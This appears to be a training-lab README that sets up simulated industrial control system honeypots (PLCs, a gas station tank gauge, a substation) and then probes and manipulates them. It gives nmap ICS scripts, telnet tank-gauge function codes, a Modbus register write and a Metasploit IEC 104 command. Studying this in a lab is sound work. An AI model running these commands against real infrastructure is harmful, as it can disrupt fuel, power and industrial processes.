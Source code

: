 ## A simple honeypot
sudo python3 -m honeypots --setup telnet,http,smb,vnc,snmp

## PLC Simulation 1
Change the first half part of the MAC address to 001C06 \
conpot -f --template default \
sudo nmap <IP_address> -Pn -sU -p 16100 \
sudo nmap <IP_address> -Pn -p- \
snmp-check --port 16100 <IP_Address>


## S7 PLC Simulation 2
sudo python3 \
import snap7 \
s7 = snap7.server.Server() \
s7.create() \
s7.start() \
s7.get_status()

python2 plcscan.py 192.168.168.11 \
sudo nmap 192.168.168.11 -Pn -p 102 --script ~/ICS_attack_scripts/Redpoint/s7-enumerate

## Gas Station Controller Simulation
Automatic Tank Gauge
Change the first half part of the MAC address to 00A0F6 \
conpot -f --template guardian_ast \
sudo nmap 192.168.168.12 -Pn -p 10001 --script ~/ICS_attack_scripts/Redpoint/atg-info.nse \
filetype:pdf I20100 \
https://www.veeder.com/us/sites/veeder.com.us/files/2020-09/576013-818%20-%20TLS-3XX%C2%A0Series%20Consoles%20Troubleshooting%20Guide.pdf \
https://www.ericzhang.me/gas-station-atgs-exposed-to-public/ \
telnet 192.168.168.12 10001 \
CTRL + A and I20100 \
Some function codes: \
I20100 1 In-Tank Inventory Report \
I20200 1 In-Tank Delivery Report \
I20300 1 In-Tank Leak Detect Report \
I20400 1 In-Tank Shift Inventory Report \
I20500 1 In-Tank Status Report

## Modbus PLC Simulation
sudo nmap -Pn 192.168.168.12 -p 502 --script ~/ICS_attack_scripts/Redpoint/modbus-discover.nse
metasploit modules -> search modbus

modbus read 192.168.168.12 %MW0 10
modbus write 192.168.168.12 %MW0 0 0 0 0 0 0 0 0 0 

## Pentesting a ChronoGuard Infrastructure Substation
Change the first half part of the MAC address to 001D59 \
nano .local/lib/python3.10/site-packages/conpot/templates/IEC104/snmp/snmp.xml \
Change the snmp port from 161 into 16100 \
conpot -f --template IEC104 \
sudo nmap 192.168.168.12 -p 2404 --script ~/ICS_attack_scripts/Redpoint/iec-identify.nse \
metasploit -> search iec104 \
use auxiliary/client/iec104/iec104 \
set ASDU_ADDRESS <learn_from_nmap_nse> \
check the ChronoGuard manual \
ASDU_ADDRESS 7720 \
COMMAND_ADDRESS 3348 \
COMMAND_TYPE 45 \
COMMAND_VALUE 0




  
